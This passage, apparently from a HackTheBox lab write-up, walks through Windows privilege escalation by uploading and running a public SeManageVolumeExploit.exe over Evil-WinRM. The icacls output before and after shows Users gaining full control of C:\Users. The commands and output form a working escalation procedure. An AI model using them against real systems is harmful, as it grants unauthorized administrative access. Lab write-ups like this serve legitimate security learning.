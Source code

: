 - A bit more explanation from xct's video:
  [xct Explanation (YouTube)](https://youtu.be/hzsGMj9C8Nw?t=2039)

- Using this GitHub repo because it contains a precompiled executable for abuse:
  [SeManageVolumeExploit (by CsEnox)](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public)

#### Before running .exe

```
upload SeManageVolumeExploit.exe
```
List Access Control List flag (ACE)
```
icacls "C:\Users"
```

```
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> upload SeManageVolumeExploit.exe
                                        
Info: Uploading /home/kali/HTB-machine/certificate/try1/SeManageVolumeExploit.exe to C:\Users\Ryan.K\Documents\SeManageVolumeExploit.exe
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> icacls "C:\Users"
C:\Users NT AUTHORITY\SYSTEM:(OI)(CI)(F)
         BUILTIN\Administrators:(OI)(CI)(F)
         BUILTIN\Pre-Windows 2000 Compatible Access:(RX)
         BUILTIN\Pre-Windows 2000 Compatible Access:(OI)(CI)(IO)(GR,GE)
         Everyone:(RX)
         Everyone:(OI)(CI)(IO)(GR,GE)
```

- OI = Object Inherit
- CI = Container Inherit
- IO = Inherit Only
- F = Full Control
- RX = Read and Execute
- GR = Generic Read
- GE = Generic Execute

**Point:**

SYSTEM has full access to everything inside C:\Users.

Administrators group has full access.

Everyone:(RX)	All users can read and execute inside C:\Users, but can't write.

#### After Running .exe

```
Successfully processed 1 files; Failed processing 0 files
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> 
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> .\SeManageVolumeExploit.exe
Entries changed: 845

DONE

*Evil-WinRM* PS C:\Users\Ryan.K\Documents> 
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> icacls "C:\Users"
C:\Users NT AUTHORITY\SYSTEM:(OI)(CI)(F)
         BUILTIN\Users:(OI)(CI)(F)
         BUILTIN\Pre-Windows 2000 Compatible Access:(RX)
         BUILTIN\Pre-Windows 2000 Compatible Access:(OI)(CI)(IO)(GR,GE)
         Everyone:(RX)
         Everyone:(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```